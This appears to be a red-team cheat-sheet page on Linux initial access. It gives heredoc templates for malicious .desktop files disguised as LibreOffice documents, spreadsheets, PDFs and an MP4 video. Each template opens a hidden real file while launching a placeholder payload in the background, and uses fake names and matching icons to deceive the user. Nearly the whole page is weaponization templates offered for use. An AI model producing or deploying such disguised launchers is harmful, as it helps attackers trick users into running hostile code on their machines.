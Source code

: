 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
---
```

# Helpers

## Common Files Locations

### Directory Entries

```
/usr/share/desktop-directories/
~/.local/share/desktop-directories/
```

### Desktop Entries

```
/usr/share/applications/
~/.local/share/applications/
```

## Libreoffice Files

```
/usr/share/applications/libreoffice-*.desktop
```

### Document Desktop Entry

```
$ cat > malicious_document.odt.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.odt
Exec=libreoffice --writer $(pwd)/.real_document.odt | <payload> &
Terminal=false
Type=Application
Icon=libreoffice-writer
EOF
```

### Spreadsheet Desktop Entry

```
$ cat > malicious_document.ods.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.ods
Exec=libreoffice --calc $(pwd)/.real_document.ods | <payload> &
Terminal=false
Type=Application
Icon=libreoffice-calc
EOF
```

## PDF Desktop Entry

```
$ cat > malicious_document.pdf.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.pdf
Exec=libreoffice $(pwd)/.real_document.pdf | <payload> &
Terminal=false
Type=Application
Icon=x-office-document
EOF
```

Another variant.

```
$ cat > malicious_document.pdf.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.pdf
Exec=libreoffice $(pwd)/.real_document.pdf | <payload> &
Terminal=false
Type=Application
Icon=application-pdf
EOF
```

## Video Desktop Entry

```
$ cat > malicious_video.mp4.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=video.mp4
Exec=/usr/bin/xdg-open $(pwd)/.real_video.mp4; <payload> &
Terminal=false
Type=Application
Icon=video-x-generic
EOF
```